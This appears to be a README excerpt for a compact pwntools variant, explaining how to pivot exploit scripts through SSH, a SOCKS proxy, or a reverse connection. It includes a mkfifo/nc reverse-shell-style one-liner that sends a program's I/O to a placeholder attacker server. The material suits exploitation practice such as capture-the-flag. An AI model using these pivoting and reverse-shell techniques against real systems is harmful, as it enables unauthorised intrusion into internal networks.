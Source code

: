 Compressing pwntools from ~30MB to ~30KB means I have to pull off some pretty hacky stuff. I'll try to add and fix what I can, but there are some things (ex. supporting multiple architectures) that I can't reasonably implement.

If this repository doesn't meet your needs, `pwntools` offers multiple solutions to let you 'pivot' your solution script through a host.

For instance, `pwntools` can SSH into a machine and attack processes/services on it:
```python
conn = ssh('blah', 'server.com', password='password')
p = conn.process("/home/blah/pwn.elf") # attack a local process
p = conn.remote("172.16.45.9",9001) # attack a remote server (through the connection)
# continue exploit as normal
```

If SSH is disabled, you can try setting up a SOCKS proxy:
```python
context.proxy = (2,'158.68.6.52',1081) # 2 for SOCKS5, 1 for SOCKS4
p = remote("192.168.0.6",9001) # this will connect through the proxy
# continue exploit as normal
```

If nothing else works, you can even send the vulnerable program over reverse-shell style:
```python
# on your solve script
s = server(8888)
info("Waiting for connection on port 8888...")
p = s.next_connection() 
# continue exploit as normal
```
```bash
# on the internal machine
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|./vulnerable_program 2>&1|nc <your-server-ip> 8888 >/tmp/f
```
